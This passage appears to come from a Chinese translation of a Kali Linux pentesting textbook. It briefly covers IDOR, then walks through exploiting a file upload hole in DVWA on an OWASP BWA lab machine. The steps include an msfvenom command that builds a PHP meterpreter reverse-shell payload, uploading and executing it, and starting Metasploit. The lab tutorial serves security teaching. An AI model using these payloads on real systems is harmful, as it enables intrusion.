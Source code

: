 请注意，这些只是网页服务器上可以找到的许多易受攻击的组件之一。随着时间的推移，安全研究人员将继续发现和记录新的漏洞。

在接下来的部分，我们将简要讨论**不安全的直接对象引用**（**IDOR**）。

# IDOR

根据 OWASP（[www.owasp.org](http://www.owasp.org)）的说法，IDOR 发生在基于用户提供的输入提供对对象的访问权限时。如果发现 Web 应用程序存在漏洞，攻击者可以尝试绕过授权并访问受损系统上的资源。

接下来，我们将演示如何利用目标机器上的文件上传漏洞。

# 利用文件上传漏洞

在这个练习中，我们将使用我们的 OWASP BWA 虚拟机来演示文件上传漏洞。让我们开始吧：

1.  首先，在 Kali Linux（攻击者）机器上使用`msfvenom`创建有效载荷，稍后将上传到目标服务器。使用以下语法，创建一个基于 PHP 的有效载荷以建立反向连接：

```
msfvenom -p php/meterpreter/reverse_tcp lhost=<IP address of Kali Linux> lport=4444 -f raw
```

1.  复制突出显示的代码，打开文本编辑器，并将文件保存为`img.php`：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/lrn-kali19/img/3515f8e8-4851-440d-8653-46e9b222a624.png)

1.  在 Kali Linux 中的 Web 浏览器中，输入 OWASP BWA 的 IP 地址并点击*Enter*。

1.  在主页上，单击**Damn Vulnerable Web Application**：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/lrn-kali19/img/4c9eb84f-eccd-4a1c-bc70-04ce74a48e2c.png)

1.  DVWA 登录门户将出现。使用`admin`/`admin`作为用户名/密码登录：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/lrn-kali19/img/a72d97a5-d315-4397-b695-4515e21e5566.png)

1.  登录后，您将在左侧看到一个菜单。单击上传以查看漏洞：文件上传页面：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/lrn-kali19/img/82c7950a-c57e-4d9d-bdd4-29873165967f.png)

1.  单击浏览...，选择`img.php`文件，然后单击页面上的上传。

1.  一旦文件被上传，您将收到一条消息，显示文件在服务器上的存储目录：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/lrn-kali19/img/185e6808-af63-4746-a6bf-853ed461c7ee.png)

1.  复制文件位置，即`hackable/uploads/img.php`，并将其粘贴到 URL 中以执行有效载荷（`img.php`）。以下是预期的 URL：

```
192.168.56.101/DVWA/ hackable/uploads/img.php
```

按*Enter*执行有效载荷。

1.  在 Kali Linux 上，使用以下命令加载 Metasploit：

```
service postgresql start msfconsole
```
